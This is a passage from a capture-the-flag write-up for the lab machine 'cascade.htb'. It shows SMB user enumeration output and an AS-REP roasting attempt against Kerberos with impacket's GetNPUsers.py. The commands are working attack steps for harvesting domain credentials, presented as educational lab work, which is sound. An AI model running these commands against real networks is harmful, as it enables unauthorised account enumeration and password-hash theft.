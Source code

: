### Port 445 (SMB)
Do the usual `enum4linux` scan and see that we get a bunch of usernames:
```
 ============================ 
|    Users on cascade.htb    |
 ============================ 
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.turnbull     Name: Adrian Turnbull   Desc: (null)
index: 0xebc RID: 0x452 acb: 0x00000210 Account: arksvc Name: ArkSvc    Desc: (null)
index: 0xee4 RID: 0x468 acb: 0x00000211 Account: b.hanson       Name: Ben Hanson        Desc: (null)
index: 0xee7 RID: 0x46a acb: 0x00000210 Account: BackupSvc      Name: BackupSvc Desc: (null)
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: CascGuest      Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xee5 RID: 0x469 acb: 0x00000210 Account: d.burman       Name: David Burman      Desc: (null)
index: 0xee3 RID: 0x467 acb: 0x00000211 Account: e.crowe        Name: Edward Crowe      Desc: (null)
index: 0xeec RID: 0x46f acb: 0x00000211 Account: i.croft        Name: Ian Croft Desc: (null)
index: 0xeeb RID: 0x46e acb: 0x00000210 Account: j.allen        Name: Joseph Allen      Desc: (null)
index: 0xede RID: 0x462 acb: 0x00000210 Account: j.goodhand     Name: John Goodhand     Desc: (null)
index: 0xed7 RID: 0x45c acb: 0x00000210 Account: j.wakefield    Name: James Wakefield   Desc: (null)
index: 0xeca RID: 0x455 acb: 0x00000210 Account: r.thompson     Name: Ryan Thompson     Desc: (null)
index: 0xedd RID: 0x461 acb: 0x00000210 Account: s.hickson      Name: Stephanie Hickson Desc: (null)
index: 0xebd RID: 0x453 acb: 0x00000210 Account: s.smith        Name: Steve Smith       Desc: (null)
index: 0xed2 RID: 0x457 acb: 0x00000210 Account: util   Name: Util      Desc: (null)
```
We can save those usernames - they will come in handy since there's Kerberos and LDAP on the box. Prepare a list of usernames like this:
```
CascGuest
arksvc
s.smith
r.thompson
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
BackupSvc
j.allen
i.croft
util
```
### Port 88 (Kerberos)
Now we could try seeing if we can do AS-REP roasting attacks with just the usernames with `impacket`'s `GetNPUsers.py` module:
```
$ python GetNPUsers.py CASCADE/ -usersfile ~/htb/cascade/enum/users -format hashcat -output ~/htb/cascade/hashes.asperoast -dc-ip cascade.htb
Impacket v0.9.22.dev1 - Copyright 2020 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User arksvc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```